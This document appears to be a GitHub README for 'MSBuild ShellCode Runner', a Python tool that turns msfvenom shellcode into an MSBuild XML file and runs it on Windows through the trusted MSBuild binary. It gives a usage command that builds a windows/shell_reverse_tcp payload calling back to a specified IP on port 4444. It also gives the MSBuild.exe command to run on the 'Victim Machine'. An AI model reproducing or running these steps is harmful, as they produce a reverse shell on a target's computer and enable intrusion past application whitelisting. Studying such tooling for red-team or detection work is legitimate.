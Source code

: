 # MSBuild ShellCode Runner

**Credits:**
Thanks to [ired.team](https://www.ired.team/) for publishing an article using msbuild to run C#. I just made this to automate the process of shellcode creation from `msfvenom`

[https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

## Installation
Install the metasploit framework first before using this

```bash
git clone https://github.com/jmrcsnchz/msbuild-shellcode-runner.git
```
```bash
pip3 install argparse
```
```bash
cd msbuild-shellcode
```
```bash
python3 build.py -h

usage: build.py [-h] -x PAYLOAD -l LHOST -p LPORT [-a ARCH]

optional arguments:
  -h, --help            show this help message and exit
  -x PAYLOAD, --payload PAYLOAD
                        Payload
  -l LHOST, --lhost LHOST
                        LHOST
  -p LPORT, --lport LPORT
                        LPORT
  -a ARCH, --arch ARCH  Architecture (x86)
```

## Usage



```bash
python3 build.py -a x86 -x windows/shell_reverse_tcp -l 130.205.34.70 -p 4444
```
![](https://i.ibb.co/mS9zJFJ/Untitled.png)
## Execute in Victim Machine
```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\random\path\bad.xml
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.
